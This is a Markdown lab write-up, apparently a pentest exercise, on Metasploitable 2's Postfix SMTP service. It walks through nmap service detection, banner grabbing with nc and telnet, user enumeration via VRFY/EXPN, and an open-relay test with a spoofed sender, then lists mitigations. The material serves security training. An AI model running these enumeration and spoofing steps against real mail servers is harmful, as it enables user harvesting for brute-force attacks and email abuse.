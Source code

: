 # SMTP - Open Relay & Information Disclosure

### Service Overview

SMTP (Simple Mail Transfer Protocol) is a protocol used to send emails between servers. On Metasploitable 2, Postfix SMTP server runs on port 25, and it's vulnerable to unauthenticated information disclosure and potential open relay, which may allow spamming or email spoofing.

---

## Vulnerability Overview

- **Name:** SMTP Information Disclosure / Open Relay
- **CVE:** None specific — general misconfiguration
- **Impact:** Leakage of system information, user enumeration, potential email abuse
- **Access Required:** None (unauthenticated)
- **Attack Type:** Information Disclosure / Misconfiguration Exploit

```
While Metasploitable 2's SMTP server is not vulnerable to remote code execution, it leaks valuable system data through the SMTP banner and VRFY/EXPN commands.
```
---

## Service Detection and Enumeration

```bash
sudo nmap -sV -v -p <target_ip>
```

![SMTP_Nmap_Service_Scan](./Nmap_SMTP_Service_Scan.png)

Check for SMTP banner and VRFY command support:

```bash
telnet <target_ip> 25
```

Once connected: 

```bash
HELO attacker.com
VRFY root
VRFY msfadmin
EXPN postmaster
```

If VRFY returns valid results, you can enumerate users.

---

## Exploitation

#### 1. Banner Grabbing:

```bash
nc <target_ip> 25
```

![SMTP_Banner](./SMTP_Banner.png)

#### 2. User Enumeration

```bash
telnet <target_ip> 25
```

```bash
VRFY msfadmin
VRFY postgres
VRFY user
```
Successful results confirm valid users for further attacks (e.g., brute-force via SSH).

![User_enum_SMTP](./SMTP_User_Enum.png)

#### 3. Testing for Open Relay

Try to send an email using spoofed headers.

```smtp
MAIL FROM:<attacker@example.com>
RCPT TO:<victim@external.com>
DATA
Subject: Hello
This is a test
.
```
![Testing_For_Open_Relay](./SMTP_User_Enum.png)

---

## Results

- Discovered SMTP banner disclosing system info and software
- Used `VRFY` to enumerate valid local users (e.g., `msfadmin`,`postgres`)
- Open relay not fully exploitable, but testing validates risk of misconfiguration

---

## Mitigation

- Disable `VRFY` and `EXPN` commands in the Postfix configuration
- Monitor SMTP traffic for anomalies or abuse attempts
- Sanitize banner messages to avoid leaking server metadata
- Restrict access to SMTP port 25 using firewall rules

